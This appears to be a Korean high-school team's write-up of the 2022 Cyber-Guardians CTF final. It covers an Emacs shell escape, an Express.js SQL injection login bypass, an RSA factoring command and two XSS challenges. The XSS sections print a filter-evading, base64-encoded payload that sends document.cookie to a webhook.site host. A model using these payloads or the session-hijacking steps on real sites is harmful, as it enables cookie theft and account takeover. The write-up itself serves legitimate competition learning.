









# 2022 Cyber-Guardians CTF Final

## Dreamhack Profile
School: 덕영고등학교

Team: Asseertive

## Solve list
A - Sanity Check Revenge (@suk-6)

D - xss-1.3 (@suk-6)

E - CProxy: Inject (@fixca)

K - Simple Factor (@suk-6)

M - xss-1.5 (@suk-6)

## Sanity Check Revenge (@suk-6)
문제 ssh에 접속하면 GNU Emacs 편집기가 나옵니다.

ESC + !로 Shell Command 입력창을 불러와서 루트 폴더의 flag 파일을 읽어 Solve 하였습니다.

## xss-1.3 (@suk-6)
xss-1.3은 문제에서 말하고 있듯 xss 문제입니다.

flag는 서버 내의 브라우저 cookie 값에 있기 때문에 

이 flag을 획득하기 위하여 cookie 값을 담아 redirect 하는 로직을 생각했습니다.

취약점(vuln) 페이지에서 Site의 취약점을 확인할 수 있고, 제공된 python 코드에서도 필터링 문자열을 확인할 수 있습니다.

이 문제는 `'`, `"`, `=`를 필터링하고 있고, 이 필터링을 우회하여 redirect 시키기 위해 작성한 exploit을 Base64 인코딩하여 Solve 하였습니다.

```html
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```

## CProxy: Inject (@fixca)
### 1. admin_inject 로 로그인 해보자!
허나 이 작업은 좀 어려웠어요.   

왜냐하면 preparedstatement 기법이어서 "나 ' or 1 = 1 같은 sqli가 먹히기 힘든 구조였어요.   

하지만 preparedstatement 에서도 먹히는 SQLi 가 있다는 것을   

https://core-research-team.github.io/2020-10-01/Expressjs

이 글에서 알게 되었어요.   

즉 pw 안에 다른 object를 넣는 방법을 알게되었고 그 방법은 다음과 같습니다.   



이제 여기서 얻은 connect sid를 브라우저로 옮겨주는 작업을 했어요.   

미리 아무계정으로 로그인 해둔 페이지에서 쿠키를 슬쩍 바꿔주면 admin_inject 계정으로 속이기 성공!   



### 2. 플래그를 따보자!
플래그의 위치는 response 테이블에 있었어요.   

db.js 파일에서 response 테이블에 있는 데이터를 불러올 수 있는 함수가 있었고, 그 함수는 /api/history 엔드포인트에 있다는것을 알게 되었어요.

   

그리고 이 함수는 여기있는 엔드포인트에서 실행되었어요.

   

이거 실행 시키면 되겠지 하고 실행했더니



아이고 맙소사 플래그가 안나오는 함수를 실행 시켰어요.   

하지만 response 테이블을 참조해서 데이터를 불러오는 엔드포인트랑 함수는 하나 더 있었어요.   





그럼 /api/history/ 뒤에 rid의 값을 입력하면 그 특정 데이터를 전부 불러올 수 있으니 실행했고,   

결과는 다음과 같았어요.   



## Simple Factor (@suk-6)
이 문제는 Crypto 문제인데요.

nc 서버에 접속하면 주어지는 Cipher Text와 n, e 값으로 복호화를 하는 문제입니다.

간단하게 RsaCTFTool을 이용하여 Solve 하였습니다.

```s
./RsaCtfTool.py -n 31525516010395406061538757857003140776076704445165612946877559817717525990426391659807258048431443511054619720807693034884778642683340943810268502844381481276013016310466765363645141150653979952243394293630773200756412761244660334394931402082669642532991462876657297421779450090795854095446077547765671404078410880371788517834317173335223367301199608784774526670075575266171594395782859745455983313424661038630460199564193123150687376091525506853738608759496310584102635446824246708680876004170298635767409540147783339235386016984795962369216724161575854439820479761331365797249655575132382618423712907958016559166213 -e 65537 --uncipher 1330521722906200447376750783453932026548320140604955883906209909328583802081151046264071972705783773362778534017909885836422350246750977282923660752882541156571777876478173779987503577667462265621071241562439429097478145413218791598919761619883235258219067285911335728236513913213065501043668109641631263225021167774235607843001522457854379968793407525669440252057676361688470433271542352017066950911573799552370862456328239985599633730510001218081628795739649698268543360859339326299082537440568724019289116005849213236392369341839257457266638787632298140736679540983048402054204731631485171306452472346302387993090
```



## xss-1.5 (@suk-6)
이 문제는 xss 문제입니다.

xss-1.3과 똑같지만 다른 필터링이 나왔습니다. 

하지만 기존 코드에서 필터링에 걸리는 문자열은 `script` 밖에 없었기 때문에 이 문자열만 우회하면 되었습니다.

파이썬은 대소문자를 구분하기 때문에 기존 `script`에서 `SCRIPT`로 수정하여 Solve 하였습니다.

```html
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<SCRIPT>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</SCRIPT>
```
